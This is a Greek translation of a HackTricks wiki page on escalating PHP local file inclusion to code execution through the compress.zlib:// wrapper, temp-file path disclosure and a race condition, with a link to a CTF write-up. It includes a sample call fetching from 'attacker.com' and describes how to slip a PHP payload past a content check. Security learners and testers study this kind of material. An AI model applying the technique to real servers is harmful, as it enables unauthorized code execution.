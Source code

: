 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `compress.zlib://` και `PHP_STREAM_PREFER_STDIO`

Ένα αρχείο που ανοίγεται χρησιμοποιώντας το πρωτόκολλο `compress.zlib://` με τη σημαία `PHP_STREAM_PREFER_STDIO` μπορεί να συνεχίσει να γράφει δεδομένα που φτάνουν στη σύνδεση αργότερα στο ίδιο αρχείο.

Αυτό σημαίνει ότι μια κλήση όπως:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
Θα στείλει ένα αίτημα ζητώντας το http://attacker.com/file, στη συνέχεια ο διακομιστής μπορεί να απαντήσει στο αίτημα με μια έγκυρη HTTP απάντηση, να κρατήσει τη σύνδεση ανοιχτή και να στείλει επιπλέον δεδομένα κάποια στιγμή αργότερα που θα γραφούν επίσης στο αρχείο.

Μπορείτε να δείτε αυτές τις πληροφορίες σε αυτό το μέρος του κώδικα php-src στο main/streams/cast.c:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Race Condition to RCE

[**Αυτό το CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) λύθηκε χρησιμοποιώντας το προηγούμενο κόλπο.

Ο επιτιθέμενος θα κάνει τον **διακομιστή-στόχο να ανοίξει μια σύνδεση διαβάζοντας ένα αρχείο από τον διακομιστή του επιτιθέμενου** χρησιμοποιώντας το **`compress.zlib`** πρωτόκολλο.

**Ενώ** αυτή η **σύνδεση** υπάρχει, ο επιτιθέμενος θα **εξάγει τη διαδρομή** στο προσωρινό αρχείο που δημιουργήθηκε (είναι διαρροή από τον διακομιστή).

**Ενώ** η **σύνδεση** είναι ακόμα ανοιχτή, ο επιτιθέμενος θα **εκμεταλλευτεί μια LFI φορτώνοντας το προσωρινό αρχείο** που ελέγχει.

Ωστόσο, υπάρχει ένας έλεγχος στον διακομιστή ιστού που **αποτρέπει τη φόρτωση αρχείων που περιέχουν `<?`**. Επομένως, ο επιτιθέμενος θα εκμεταλλευτεί μια **Race Condition**. Στη σύνδεση που είναι ακόμα ανοιχτή, ο **επιτιθέμενος** θα **στείλει το PHP payload ΜΕΤΑ** που ο **διακομιστής ιστού** έχει **ελέγξει** αν το αρχείο περιέχει τους απαγορευμένους χαρακτήρες αλλά **ΠΡΙΝ φορτώσει το περιεχόμενό του**.

Για περισσότερες πληροφορίες, ελέγξτε την περιγραφή της Race Condition και του CTF στο [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
